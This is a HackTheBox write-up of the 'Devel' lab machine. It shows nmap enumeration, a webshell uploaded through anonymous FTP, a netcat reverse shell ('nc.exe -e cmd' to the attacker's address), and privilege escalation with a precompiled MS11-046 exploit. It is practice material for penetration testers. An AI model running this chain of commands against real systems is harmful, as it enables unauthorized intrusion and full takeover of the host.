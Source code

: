 ```yaml
---
layout: post
title:  "HackTheBox - Devel Writeup"
categories: HackTheBox
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Devel" (10.10.10.5) on the platform HackTheBox. HackTheBox is a penetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

As usual we're going to start off with our two nmap scans, a full TCP scan using `nmap -sV -sC -p- 10.10.10.5` and `nmap -sU -p- 10.10.10.5` in this case, we only returned ports open on TCP so we're going to look at that now.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-21 16:59 BST
Nmap scan report for 10.10.10.5
Host is up (0.039s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As you can see we've got two ports FTP & HTTP, FTP stands out right away because NMAP has confirmed for us that Anonymous login is allowed, that is a severe miss configuration which we can take advantage of. It even looks like the web server root is also the FTP server root, this is another sysadmin fail. We'll login to that in just a few moments, but first our web server appears to be running IIS 7.5, normally I would look for some low-hanging exploits however, given that the FTP root is the same as the web-server root, and we know that it's running ASP.NET, we're not going to go for that as I think there will be an easier path.

### FTP & HTTP

Upon logging into the FTP server we can see the same files as per the NMAP scan, and by visiting the site on HTTP we can confirm that the web root is the same as the FTP root so we're going to try and upload an ASPX shell, luckily for us there is one built into Kali. Because it's running IIS 7.5 which is relatively new we made the assumption it'd be using ASPX rather than ASP. The difference being that ASP is VBScript based and ASPX is .NET based this is a neat little thing to remember when attacking IIS servers.

```
ftp> put /usr/share/webshells/aspx/cmdasp.aspx cmd.aspx
local: /usr/share/webshells/aspx/cmdasp.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.01 secs (200.5416 kB/s)
```

On port 80, let's try and visit this page and see what happens, if we look at the screenshot below, we've got a command box, that's good! That means our webshell uploaded correctly as expected.

![asp web-shell](/assets/images/2019-05-25-Devel/Screenshot-2019-5-25.png)

Now that we know that works, lets try and use this to execute a netcat.exe, we know that we can upload and it's going into the web root folder so this should allow us to leverage this in order to get a reverse shell on the device.

## User Exploitation

Let's put netcat.exe on the device using FTP. It's important to note that we do need to set the FTP transfer mode to binary, else netcat is not going to execute and we'll get an error when trying to execute the file. The webserver was by default using ASCII mode, in general we only want to use ASCII mode for transferring things such as text files and the like, as we're trying to execute something, we switch to binary mode. You can verify the transfer mode the server is using over FTP by using the `type` in our case we are returned `Using ascii mode to transfer files.` hence why we changed it to binary mode by typing `binary`

```
ftp> binary
200 Type set to I.
ftp> put /usr/share/windows-binaries/nc.exe nc.exe
local: /usr/share/windows-binaries/nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
59392 bytes sent in 0.09 secs (639.0480 kB/s)
```

We didn't actually test our webshell yet so let's run a simple `whoami` in the shell and press execute, as you can see in the below screenshot `iis apppool\web` is returned so we know that our webshell for sure works and we know that the webserver is not running as system at least (that'd be a major sysadmin fail).

![asp webshell execution](/assets/images/2019-05-25-Devel/webshell-execution.png)

So as you can see, we've got basic execution, now what we're going to do is get the web server to execute netcat for our reverse shell, let's first set a listener up on port 80 with `nc -nvlp 80`. We're now going to use our remote code execution to find the full path for the netcat.exe that we uploaded. We can do this using the `dir` command - `dir /s/b C:\ | find /i "nc.exe` it turns out it is located at `C:\inetpub\wwwroot\nc.exe` in order to execute this then we're just going to run `C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.12 80` which will give us a connection back to our listener, we've now got a login. I did initially try and get to the `user.txt` flag however because I was only a service account I did not have access this meant we need to priv-esc.

## Privilege Escalation

So, we're on the device, let's work on the priv-esc - the first thing we should run as soon as we access a Windows system is `systeminfo` it's going to give us the OS version which is very powerful as we can then start to search for priv-esc flaws in the operating system.

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          28/5/2019, 8:07:50 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 3/7/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 683 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.497 MB
Virtual Memory: In Use:    550 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

In the codeblock above, right at the top you can see the "OS Version" as you see for this box the OS version is "6.1.7600 Build 7600", let's do some Google-fu and append "privilege escalation" on the end. The very first result we get is [MS11-046 on ExploitDB](https://www.exploit-db.com/exploits/40564), let's check out this exploit. As you can see commented out at the top of the exploit, the author has listed the vulnerable OS's and Windows 7 X86 is listed, we see no mention of enterprise but we're going to assume that our target is vulnerable to this exploit.

To save myself a headache of compiling this exploit on Linux (because we will get errors on Linux due to some of the includes) we're going to take advantage of a repository put together by [Abatchy17 called "WindowsExploits"](https://github.com/abatchy17/WindowsExploits) it's no longer being updated but as we can see, our exploit MS11-046 is in there pre-compiled so let's `git clone` the repo and then use our anonymous FTP login to upload the file to the server once again making sure the type is set to binary else the file won't execute.

```
ftp> binary
200 Type set to I.
ftp> 
ftp> put /root/Documents/WindowsExploits/WindowsExploits/MS11-046/MS11-046.exe MS11-046.exe
local: /root/Documents/WindowsExploits/WindowsExploits/MS11-046/MS11-046.exe remote: MS11-046.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
112815 bytes sent in 0.08 secs (1.3597 MB/s)
ftp> 
```

Now we've got the exploit on the system all we need to do is execute it, simple right? Yup! If you don't know where the file is you can take advantage of dir again however we know that the path is `C:\inetpub\wwwroot\` anyway so let's execute the file by doing `C:\inetpub\wwwroot\MS11-046.exe` and after about 10 seconds we're going to see the `System32` prompt, let's do a `whoami` to verify and we should see `nt authority\system`. That's it! That's our priv-esc done so now we can go ahead and get the user + root flag and we're done.

Thank you for reading another writeup, this is an OSCP like box so this is great practice for that! In another post we will cover how MS11-046 works a little more because it's for sure a priv-esc exploit we want to keep in mind!